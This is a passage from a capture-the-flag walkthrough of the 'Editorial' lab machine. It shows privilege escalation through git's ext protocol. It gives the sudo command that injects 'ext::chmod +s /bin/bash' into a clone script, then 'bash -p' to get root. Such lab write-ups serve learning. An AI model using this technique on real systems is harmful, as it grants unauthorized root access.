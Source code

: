 Examining the script, we find out that it is trying to clone a repository allowing the use of `ext` (`multi_options=["-c protocol.ext.allow=always"]`).

---

**What is ext?**

*In git, ***ext*** allows a command to obtain the repository rather than a URL.*

*This can be dangerous if the URL is user-controlled, as it enables arbitrary command execution.*

*You can find more information about ***ext*** [here](https://git-scm.com/docs/git-remote-ext).*

---

To exploit this, we execute the script with sudo, passing it the payload `ext::<command-to-execute>` as first argument.

For example, let's give the bash `suid` privilege, which will allow us to execute a root bash later.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::chmod +s /bin/bash"
```

It throws an error since the command we passed does not return a valid git repository. It should have executed the command though.

Now we will execute a bash with the `-p` option to tell bash it must change the `UID`.

```
bash -p
```

And now we are **root**, so we can read its flag, concluding the **Editorial** machine.

```
cd /root
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.
